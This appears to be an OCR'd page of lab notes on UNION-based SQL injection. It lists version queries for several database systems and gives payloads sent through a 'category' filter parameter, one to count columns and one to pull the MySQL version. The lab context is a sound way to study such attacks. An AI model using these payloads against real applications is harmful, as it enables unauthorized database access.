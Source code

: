 
| DB         | Description                                                          |
| ---------- | -------------------------------------------------------------------- |
| Oracle     | `SELECT banner FROM v$version`  <br>`SELECT version FROM v$instance` |
| Microsoft  | `SELECT @@version`                                                   |
| PostgreSQL | `SELECT version()`                                                   |
| MySQL      | `SELECT @@version`                                                   
- Verify the amount of columns:
```
GET /filter?category=' UNION SELECT null,null#
```
=> Get 2 columns, other situations return **Internal Server**.

- Query the version of database:
```
' UNION SELECT @@version,null#
```
